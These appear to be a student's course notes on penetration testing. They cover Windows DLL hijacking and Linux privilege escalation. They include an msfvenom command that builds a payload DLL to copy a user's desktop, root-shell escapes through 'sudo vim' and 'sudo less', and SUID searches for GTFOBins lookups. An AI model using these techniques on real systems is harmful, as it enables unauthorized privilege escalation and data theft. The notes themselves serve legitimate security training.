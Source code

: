     7045 - service created

## get sys internals tools
    net use z: "\\http://live.sysinternals.com" /persistent:yes 
    
    msfvenom to copy contents of desktop -> msfvenom -p windows/exec CMD='cmd.exe /C "xcopy C:\Users\Admin\Desktop C:\Users\comrade.WIN2-INTERNAL-D\Desktop\ /s"' -f dll > hijackmeplz.dll


## Linux Exploitation / Privilege escalation
https://sec.cybbh.io/public/security/latest/lessons/lesson-10-linux-exploit_sg.html

    **Objectives**
    Adding or hijacking a user account
    Implementing boot process persistence
    Adding or modifying a CRON job
    Additional methods outside the scope of the SG

    **Privilege escalation**
    **run sudo -l** when ya get on a box to see what you can run.
    **can escalate** opening sudo vim /etc/ssh/sshd_config, then :!sh to gain root access. (that file is an example, can be any file you can sudo vim into.)
    can do the same thing as above w "sudo less /etc/ssh/sshd_config"
    more examples of these at: https://gtfobins.github.io/

    **Sudo file config** -> in /etc/sudoers
    %sudo ALL=(ALL:ALL) ALL -> on all hosts, anyone in this group / user can sudo as all users and all groups to execute all commands. % means its a group, no % is user.
    ex:
    murphy ALL=/usr/bin/halt,/usr/bin/poweroff,/usr/bin/reboot
    This rule allows user murphy to run /usr/bin/halt, /usr/bin/poweroff and /usr/bin/reboot as root.

    **SUID/SGID** -> for the user or group that owns the file. 
    ls -l /usr/bin/passwd
    -rwsr-xr-x 1 root root 59640 Nov 29  2022 /usr/bin/passwd
    This has the SUID bit turned on. 

    Find all files w/ the SUID bit turned on:
        find / -type f -perm /4000 -ls 2>/dev/null

    Find all files w/ the SGID bit turned on:
        find / -type f -perm /2000 -ls 2>/dev/null

    Find all files w/ SUID & SGID turned on:
        find / -type f -perm /6000 -ls 2>/dev/null

    Check what is returned against GTFObins to see what you can exploit. 

    **Insecure Permissions**
    CRON
    World-Writable Files and Directories
    Dot '.' in PATH

    **CRON**
    /etc/cron.d .daily, .hourly .weekly .monthly .weekly (etc ones are system level crons)
    /var/spool/cron/crontabs/student (or whoever created it) -> user created crons.
    -e to edit crontab, -l to list crontab, -u specify the user, -r remove crontab
    crontab.guru to check cron job times. ex: crontab -e
